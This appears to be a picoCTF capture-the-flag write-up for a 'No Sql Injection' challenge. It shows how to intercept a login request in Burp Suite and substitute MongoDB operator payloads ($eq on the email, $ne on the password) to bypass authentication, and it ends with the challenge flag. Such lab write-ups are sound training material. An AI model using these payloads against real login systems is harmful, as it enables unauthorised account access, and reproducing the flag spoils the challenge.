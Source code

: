 # No Sql Injection

## Description

Can you try to get access to this website to get the flag?
You can download the source here.

## Solution
Use burpsuite for this chall.

First, try logging into a website with intercept active in burpsuite.
Then, send the request to repeater.

Previously, we were given a source code from the website, and there was a **server.js** file that contained a user's login information.

```js
 // Store initial user
    const initialUser = new User({
      firstName: "pico",
      lastName: "player",
      email: "picoplayer355@picoctf.org",
      password: crypto.randomBytes(16).toString("hex").slice(0, 16),
    });
```

From the file we also know that the website uses MongoDB. We just need to exploit the no sqli bug using burpsuite.

```
"email":"{\"$eq\":\"picoplayer355@picoctf.org\"}",
"password":"{\"$ne\":\"admin\"}"
```

* `"$eq": "picoplayer355@picoctf.org"` is an operator in MongoDB that means equal.
* Purpose: Check if an account with the email `"picoplayer355@picoctf.org"` exists.
* `"$ne": "admin"` is an operator in MongoDB that means not equal to.
* Purpose: Ensure the password is not `"admin"`.




## Flag
    picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_784e40e8}

